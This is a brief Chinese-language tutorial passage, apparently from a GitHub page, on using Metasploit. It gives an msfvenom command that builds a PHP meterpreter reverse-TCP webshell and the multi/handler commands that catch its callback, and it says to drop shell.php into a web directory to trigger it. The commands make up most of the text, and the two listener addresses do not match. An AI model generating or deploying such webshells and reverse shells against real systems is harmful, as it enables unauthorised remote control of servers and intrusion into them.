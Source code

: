 ### 如何利用
下面以`php`为例做一下测试，使用以下命令生成一个webshell：
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.100.82 LPORT=4444 -f raw > shell.php
```

### 在kali上使用msf执行下面的命令，监听端口4444：

```
use exploit/multi/handler
```
```

set PAYLOAD php/meterpreter_reverse_tcp  
```
```
set LHOST 192.168.88.128
```
```
set LPORT 4444
```
```
set ExitOnSession false
```
```
exploit -j -z
```
> 可见这段代码和上文中唯一不同就是设置了不同的payload(这不废话吗)

### 如何实现

>将shell.php放在web目录下，使用浏览器访问，或者使用以下命令执行：
```
php shell.php
```
![](img/2.png)
可以当成一个检测payload如果上线就提醒下线就当场去世(Died)
